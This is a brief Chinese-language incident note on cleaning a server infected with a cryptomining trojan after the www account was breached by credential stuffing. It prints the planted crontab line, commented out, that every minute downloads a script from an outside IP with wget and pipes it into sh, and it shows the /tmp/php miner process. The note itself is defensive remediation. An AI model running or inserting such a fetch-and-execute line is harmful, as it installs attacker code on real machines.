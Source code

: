 # 7. 2018-12-16-服务器木马入侵 CPU 异常问题修复总结.md

## 木马入侵导致服务器 CPU 异常问题
### 使用 top 命令查看
```shell
$ top
17920 www 20 0 99% php
```

原因：linux 的 www 用户被撞库登录，植入 crontab 命令写入 /tmp/php, 解决办法当然是先修改密码了，然后用 www 用户登录：

```shell
# 1. 查看
crontab -l
# 注释掉定时任务
# * * * * * wget -q -O - http://83.220.169.247/cr3.sh |sh > /dev/null 2>&1

# 2. 结束高耗 CPU 任务并删除
ps aux|grep php

www 12465 98.5  0.1 372984  3440 ?   Ssl  Dec14  3820:12 /tmp/php -c /tmp/p2.conf

sudo kill -9 12465

sudo rm /tmp/php
```




详细的删除植入的木马见之前遇到的挖矿木马：
 [01-04 wnTKYg 挖矿木马彻底删除方法](http://note.youdao.com/noteshare?id=fa8dcadd45c29cd5589b30e907fd3612)
